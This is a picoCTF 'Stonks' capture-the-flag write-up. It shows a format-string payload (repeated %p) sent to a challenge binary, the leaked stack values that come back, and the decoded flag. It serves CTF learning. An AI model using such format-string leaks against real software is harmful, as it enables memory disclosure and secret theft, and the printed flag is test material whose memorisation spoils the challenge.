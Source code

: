 # Stonks

## FLAG: picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}

## STATUS: Complete

Category: Binary-Exploit

Description: I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 27912

Hint-1: Okay, maybe I'd believe you if you find my API key.

> wget "https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c"

pass the program %p to get a valid pointer - so no sanitization of user input

if we pass the program a ton of %s%s%s%s%s%s%s we can see the overflow error / core dump

1
%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p

## Output

0x97643b0__0x804b000__0x80489c3__0xf7efdd80__0xffffffff__0x1__0x9762160__0xf7f0b110__0xf7efddc7__(nil)__0x9763180__0x2__0x9764390__0x97643b0__0x6f636970__0x7b465443__0x306c5f49__0x345f7435__0x6d5f6c6c__0x306d5f79__0x5f79336e__0x32666331__0x30613130__0xff9a007d__0xf7f38af8__0xf7f0b440__0x2753b500__0x1

Then run buffer.py to use the output to decode the bytes. - This results in:

b"picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}\x00\x9a\xff\xf8\x8a\xf3\xf7@\xb4\xf0\xf7\x00\xb5S'"
